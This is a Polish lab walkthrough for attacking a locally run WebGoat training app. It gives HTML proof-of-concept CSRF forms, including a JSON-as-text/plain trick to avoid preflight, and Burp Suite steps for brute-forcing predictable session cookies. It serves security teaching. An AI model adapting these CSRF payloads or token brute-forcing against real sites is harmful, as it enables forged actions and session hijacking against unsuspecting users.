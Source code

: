
## INSTALACJA 

Będziemy korzystać z aplikacji WebGoat link do repozytorium znajduję się poniżej

  https://github.com/WebGoat/WebGoat

Dodatkowo będziemy potrzebowali dockera i burpa

  https://www.docker.com/products/docker-desktop/
  https://portswigger.net/burp/releases/professional-community-2023-10-3-6?requestededition=community&requestedplatform=

Po instalacji wszystkich 3 rzeczy możemy przejść do części praktycznej naszego projektu. 
### URUCHOMIENIE WEBGOAT
```bash
  docker run -it -p 127.0.0.1:8888:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```
  W przypadku jakichś problemów z uruchomieniem kontenera możemy spróbować uruchomić go na innym porcie, należy zapamiętać ten port gdyż będzie on wykorzystywany  w dalszej części.


# ZADANIA 
### ZADANIE 1
1. Pierwszym krokiem jest utworzenie profilu użytkownika
![App Screenshot](https://snipboard.io/ejtuPR.jpg)

2. Następnie przechodzimy do zakładki Server-side Request Forgery i wybieramy Cross-Site Request Forgeries. Zalecamy zaponzać się z dodatkową treścią umieszczoną na pierwszych dwóch slajdach w celu łatwiejszego zrozumienia tematu.

3. Teraz przechodzimy do zakładki Basic Get CSRF Exercise, w której wykonamy pierwsze zadanie. W tym momencie musimy uruchomić serwer apache. Celem tego zadania jest uruchomienie poniższego formularza z zewnętrznego źródła podczas logowania. Odpowiedź będzie zawierać "flagę" (wartość liczbową) którą wpiszemy poniżej.
4. Tworzymy plik do którego musimy wkleić kod  
```html
<html>
	<body>
	<script>history.pushState('','', '/')</script>
	 <form action="http://localhost:{NUMER_PORTU}/WebGoat/csrf/basic-get-flag" method="POST">
		<input type="hidden" name="csrf" value="false" />
		<input type="hidden" name="submit" value="Submit&#32;Query"/>
		<input type="submit" value="Submit request" />
	 </form>
	</body>
</html>
```
Po uruchomieniu tego kodu powiniśmy otrzymać status, że zadanie zostało wykonane poprawnie. Dodatkowo zwrócona została wartość liczoba flagi, którą musimy wkleić do formularza.
<br>![App Screenshot](https://snipboard.io/CZyGlD.jpg)

### ZADANIE 2
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytania wysyłane poprzez formularz z opiniami. Gdy dodamy opinię powiniśmy zauważyć wysłane zapytanie metodą POST. 
2. W tym przypadku również będziemy tworzyć plik z naszym kodem. Będzie potrzebne nam:
- post url request
- content type
- parametry 
```html
<html>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/review method=post enctype='application/x-www-form-urlencoded; charset=UTF-8'>
		<input name='pierwszy_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='drugi_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='trzeci_parametr' value='wartosc_odczytana' type='hidden'> 
		<input type=submit value="Submit">
	</form>
</html>
```
	<input name='' value='totalnielosowe' type='hidden'> - sprawia że ofiara nie jest świadoma ataku który jest przeprowadzany.
3. Po wykonaniu powyższego kodu i odświeżenia głównej strony jesteśmy w stanie zobaczyć dwie opinie.

### ZADANIE 3
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytanie wysyłane poprzez wiadomość którą uzupełniliśmy.

2. Warto zwrócić uwagę tutaj na content type.
![App Screenshot](https://snipboard.io/9OYCsH.jpg)

3. W przypadku zapytania POST i użycia content-type innego niż 3 wyżej wymienione zapytanie nie jest już wtedy proste, jest uznawane jako "preflighted request". 

4. W zapytaniu preflighted request wykonywane są dodatkowe sprawdzenia bezpieczeństwa przez serwer w celu sprawdzenia czy na prawdę jesteśmy autoryzowanym użytkownikiem do wykonania zapytania. Dlatego chcemy unikać tego typu zapytań. 

5. Zmienimy nasze zapytanie aby wykorzystywało "text/plain" zamiast "application/json"
```html
<html>
	<title>JSON CSRF POC</title>
	<center> 
	<h1>JSON CSRF POC </h1>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/feedback/message method=post enctype ="application/json">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat tekst","ignore_me":"'value = 'test"}' type=hidden>
	<input type=submit value="Submit">
	</form>
	</center>
</html>
```

6. Próbujemy zamaskować typ z json aby był traktowany jako zwykły tekst, dlatego używamy takiego sposobu przekazania parametrów. Parametr ignore_me jest używany w celu ominięcia problemu w którym jest to traktowane jako json.

### ZADANIE 4
1. Uruchamiamy oprogramowanie Burp Suite Community Edition, ustawiamy serwer proxy w ustawieniach windowsa i otwieramy odpowiednią przeglądarke (dokładna instrukcja konfiguracji na Upelu przedmiotu, zakładka "Zajęcia laboratoryjne numer 2")

2. Przechodzimy do zakładki (A1) Broken access control i wybieramy Hijack a session.

3. W HTTP history musimy odszukać żądanie które zawiera ciasteczka <code>hijack_cookie</code> i przesłać je do sequencera
   <br> ![App Screenshot](https://snipboard.io/LsNziA.jpg)

4. W sequencerze za pomocą live capture generujemy kilkadziesiąt/kilkaset tokenów i zapisujemy je do pliku tekstowego

5. Możemy zauważyć, że klucze są podzielone na dwie części, a ich wartości nie są losowe - pierwsza część jest czymś w rodzaju numeru użytkownika, a druga przypomina timestamp.
   <br> ![App Screenshot](https://snipboard.io/OLf5ph.jpg)

6. Żeby przeprowadzić atak brutalny należy przesłać zapytanie z ciasteczkiem <code>hijack_cookie</code> do intrudera i metodą prób i błędów próbować znaleźć token używany przez innego użytkownika.
Jeśli w zapytaniu nie przesyłane jest ciasteczko <code>hijack_cookie</code>, to trzeba jeszcze raz wysłać formularz.
Do znalezienia klucza potrzeba troche szczęścia, raczej nie znajdziecie go przy pierwszej próbie ataku.

